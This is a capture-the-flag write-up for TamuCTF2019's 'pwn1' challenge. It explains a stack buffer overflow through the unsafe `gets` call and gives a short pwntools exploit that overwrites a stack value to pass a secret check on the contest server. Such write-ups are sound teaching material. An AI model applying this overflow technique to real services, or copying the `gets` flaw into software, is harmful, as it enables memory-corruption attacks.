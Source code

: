 
# pwn1.md

This is an easy pwn challenge from TamuCTF2019.

The challenge reproduces the bridge scene from Monty Python and the Holy grail. The user gets asked for their name, quest, and a secret.

Running `strings` on the Linux 32-bit binary gives the name and quest. Next, after the secret gets asked for, a check gets done against the integer 3735097544. Easy enough, but the user input doesn't get written to the same place as where the integer is looked for on the stack. A quick inspection of the code shows that `gets` is used to accept user input for the third question, and so it's a simple matter of overflowing the stack and writing the requisite integer to the correct location.

Here's the stack after I enter "AAAAAAAA\n". The desired integer should be at `$ebp-0x10`, according to the assembly language for the executable.

![./stack.png](./stack.png)

Looks like I need 43 bytes of junk, followed by the integer.

That gives me the flag! Easy problem.

![./flag.png](./flag.png)

Here is the exploit code:

```
# Solve pwn1.py

from pwn import *
from time import sleep

DELAY = 0.5

p = remote('pwn.tamuctf.com', 4321)

sleep(DELAY)
p.send("Sir Lancelot of Camelot\n")
sleep(DELAY)
p.send("To seek the Holy Grail.\n")
time.sleep(2)
p.send("A"*43 + p32(0xDEA110C8) + "\n")
p.interactive()
```

